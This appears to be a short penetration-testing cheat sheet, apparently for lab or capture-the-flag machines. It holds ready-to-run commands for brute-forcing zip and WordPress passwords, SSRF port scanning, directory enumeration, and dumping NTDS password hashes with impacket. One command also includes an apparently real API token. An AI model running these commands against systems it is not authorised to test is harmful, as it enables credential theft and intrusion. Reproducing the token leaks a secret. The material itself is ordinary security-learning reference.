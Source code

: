 
## bruteforce zip file with fcrackzip
```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace.zip 
```
## bruteforce zip file with john
```bash
zip2john myfile.zip > johnkey
john johnkey --wordlist=/usr/share/wordlists/rockyou.txt
```

## port knocking on 3 ports using nmap
```bash
for x in $(echo 22 23 24);do nmap -PN --host-timeout 201 --max-retries 0 -r -p$x 192.168.0.106;done
```

## classic gobuster
```bash
gobuster dir -u http://10.10.10.55:8080 -a 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3831.6 Safari/537.36' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k -o gobuster/http-dlist-lower-small.txt
```

## list contents of .vhd file
```bash
7z l filename.vhd
```


## do a local port scan using SSRF
```bash
# --hl=2 is hide responses that has 2 lines. 
wfuzz -c --hl=2 -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
```

## dump password hasshes from ntds dump file using system hive file and the dit file
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM.bin LOCAL
# tip: users ending with $ are system accounts and has hard passwords, look for other ones
```
## wpscan enum all plugins 
```bash
wpscan --url http://10.10.10.88/webservices/wp/ --enumerate ap --plugins-detection aggressive --force --api-token o3Oj8OysJNmHbVf5PoEMe6ASLUrac3Q5KJB8G0aguz4
```

## wpscan brute
```bash
wpscan --usernames tom -P /usr/share/wordlists/rockyou.txt --force --password-attack wp-login --url http://192.168.137.131/prehistoricforest/ --no-update
```
